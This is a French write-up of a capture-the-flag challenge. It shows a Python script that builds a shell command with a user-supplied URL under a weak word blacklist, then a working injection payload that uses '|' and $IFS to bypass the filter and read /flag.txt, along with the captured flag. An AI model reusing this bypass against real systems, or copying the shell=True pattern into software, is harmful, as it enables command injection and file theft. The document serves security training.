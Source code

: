 D'accord, voici le write-up avec le code complet et un peu plus de fun, comme demandé, sans toucher à l'analyse ni raccourcir le contenu :

---

layout: post  
title: Stop Censure v2  
subtitle: Write-Up pour le NBCTF  
tags: [writeup, injection, command, CTF, Moyen]  
comments: true

---

Salut à tous ! Dans ce write-up, je vais vous présenter comment j'ai résolu le challenge **Stop Censure v2** du NoBracket CTF. Ce défi est une suite du précédent challenge **Stop Censure**, mais avec quelques ajustements apportés par les administrateurs pour corriger la faille initiale.

## Premier coup d'œil 👀

Le contexte de ce challenge est simple : les administrateurs ont découvert la faille que nous avions utilisée dans **Stop Censure**, et ils l'ont corrigée en ajoutant une liste de mots bannis. Notre mission est de trouver un moyen de contourner cette nouvelle restriction et d'accéder au flag.

Le flag se trouve dans le fichier `/flag.txt`. Nous devons, comme dans la version précédente, soumettre une URL pour vérifier si le site est censuré ou non. Si nous parvenons à contourner les restrictions, nous pourrons lire le contenu de `/flag.txt` pour obtenir le flag.

## Analyse du fichier `censure_v2.py`

En comparant le fichier fourni avec le précédent script **Stop Censure**, plusieurs modifications ont été faites pour renforcer la sécurité. Voici le code de la version 2 (spoiler : ça va devenir amusant) :

```python
#!/usr/bin/env python3
import subprocess
import re

# Liste des mots et caractères interdits
forbidden = ["cat", "flag.txt", "&", ";", " "]

# Regex qui détermine les sites légaux
pattern = r'https?://[a-zA-Z0-9.-]+\.nobrackets\.fr(/[a-zA-Z0-9./?%_-]*)?'

# Fonction qui teste si un mot interdit est présent dans l'url
def is_forbidden(url):
    for word in forbidden:
        if word in url:
            return True
    return False

# Fonction de vérification de la légalité d'une url
def is_legal_url(url):
    return re.match(pattern, url) is not None

# Bannière
print("---------------------------------")
print("~~ Ce site est-il légal ? (v2) ~~")
print("---------------------------------")

# Entrée utilisateur
value = input("Entrez un site (eg: https://wiki.nobrackets.fr/) >>> ")

# Vérification que l'entrée utilisateur ne soit pas vide
if not value:
    print("Erreur. Veuillez entrer une URL.")
    exit(-1)

# Vérification si un petit malin essaye de nous attaquer
if is_forbidden(value):
    print("Attaque détectée !")
    exit(-1)

# Vérification de la légalité de l'URL entrée
if not is_legal_url(value):
    print("Erreur. Votre URL est soit mal formatée soit illégale !")
    exit(-1)

# Test de l'existence du site
process = subprocess.run("curl -I "+value, capture_output=True, shell=True)
res = process.stdout
if not res:
    print("Erreur. Le site ne semble pas exister.")
    exit(-1)

# Affichage de l'échange
print("Succès ! Le site est légal et fonctionnel ! Voici ses informations : \n\n")
print(res.decode())
exit(0)
```

### Changements apportés : 🔐

1. **Liste des mots interdits** : Ah, les admins pensaient avoir tout prévu avec leur blacklist : `"cat"`, `"flag.txt"`, `"&"`, `";"`, et même l’espace `" "`. Ces restrictions sont censées rendre les choses difficiles... mais rien n'est impossible 😎.

2. **Vérification stricte** : Si l'URL contient l'un de ces mots bannis, le script déclenche une alerte et interrompt l'exécution. Ça semble être une bonne idée... sur le papier. 😏

## Étape 1 : Recherche d'un contournement 🚧

Face à ces nouvelles restrictions, j'ai commencé à tester différentes méthodes d'injection de commandes. Sachant que certains caractères comme `&` et `;` étaient bannis, j'ai cherché des séparateurs alternatifs pour exécuter des commandes.

J'ai testé différents caractères séparateurs comme `,` ou `|`. À ce stade, j'ai aussi essayé d'envoyer des commandes comme `echo`, et j'ai remarqué que le séparateur `|` fonctionnait. Ça a ouvert une première brèche dans leur "mur" de sécurité. 🚀

## Étape 2 : Test avec `grep` et `$IFS` 💡

Après avoir validé que le séparateur `|` fonctionnait, j'ai essayé de lancer des commandes plus complexes, en particulier en utilisant `grep`. Cependant, avec l'interdiction de l’espace `" "`, il fallait être créatif pour séparer les arguments.

C'est là que **$IFS** (Internal Field Separator) entre en scène. En remplaçant l’espace par cette variable magique, j'ai réussi à contourner cette restriction et à exécuter ma commande. 🎩✨

Voici la commande finale que j'ai utilisée :

```bash
http://node2.nobrackets.fr/,|grep$IFS''$IFS/fl*
```

## Étape 3 : Résultat et récupération du flag 🎯

Cette commande a fait mouche ! 🎉 Voici ce que j'ai obtenu :

```bash
┌─[lxst@parrot]─[~]
└──╼ $nc node1.nobrackets.fr 21458
---------------------------------
~~ Ce site est-il légal ? (v2) ~~  
---------------------------------  
Entrez un site (eg: https://wiki.nobrackets.fr/) >>> http://node2.nobrackets.fr/,|grep$IFS''$IFS/fl*
Succès ! Le site est légal et fonctionnel ! Voici ses informations : 

NBCTF{IFS_F0r_th3_W1n!}
```

## Conclusion 🎉

En conclusion, même avec une sécurité renforcée, il est possible de contourner les restrictions avec un peu de créativité. En utilisant des caractères spéciaux comme le séparateur **`|`** et la variable **$IFS**, j'ai pu déjouer le système et accéder au flag caché dans **`/flag.txt`**.

Un grand merci à **Drahoxx** et **ribt** pour ce défi stimulant et amusant ! Il est toujours satisfaisant de voir que, peu importe combien les choses peuvent paraître verrouillées, il y a toujours une solution pour qui sait la chercher. 😎

Flag : **NBCTF{IFS_F0r_th3_W1n!}**
